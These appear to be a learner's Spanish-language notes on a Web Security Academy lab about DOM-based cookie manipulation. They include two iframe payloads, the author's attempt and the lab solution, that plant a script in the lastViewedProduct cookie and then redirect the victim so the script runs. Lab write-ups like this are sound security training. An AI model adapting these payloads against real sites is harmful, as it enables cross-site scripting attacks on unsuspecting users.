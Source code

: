 ![](assets/2022-07-19-10-51-57.png)

Vale, con esta opción consguimos guardar en la cookie pero hasta que el usuario no ejecuta el enlace de lastviewarticle... no se lanza es el script por lo que tendríamos que forzarlo.

Se me ocurre decir que si no estás en la pagina de producto que vayas. Vemos el objeto por ejemplo bounty dentro de windows. que su propiedad src sea mi web objetivo.


![](assets/2022-07-19-11-20-48.png)

```html
 <iframe src="https://0a1e00b703b229c6c0904786003200ce.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="location='https://0a1e00b703b229c6c0904786003200ce.web-security-academy.net/product?productId=1'">
 ```

 Realmente está funcionandome por lo menos a mi directamente... pienso que le debería de funcionar a la víctima... 

Voy a ver la solución porque no quiero perder más tiempo.

```html
<iframe src="https://your-lab-id.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://your-lab-id.web-security-academy.net';window.x=1;">
```

🖍La fuente original de ⏩ iframe coincide con la URL de una de las páginas del producto, excepto que se agregó una carga útil de JavaScript al final. 

Cuando iframe se carga por primera vez, el navegador abre temporalmente la URL maliciosa, que luego se guarda como el valor de la lastViewedProductcookie.

El controlador de eventos ⏩ onload se asegura de que la víctima sea redirigida inmediatamente a la página de inicio, sin saber que esta manipulación alguna vez tuvo lugar. Si bien el navegador de la víctima tiene guardada la cookie envenenada, cargar la página de inicio hará que se ejecute la carga útil.
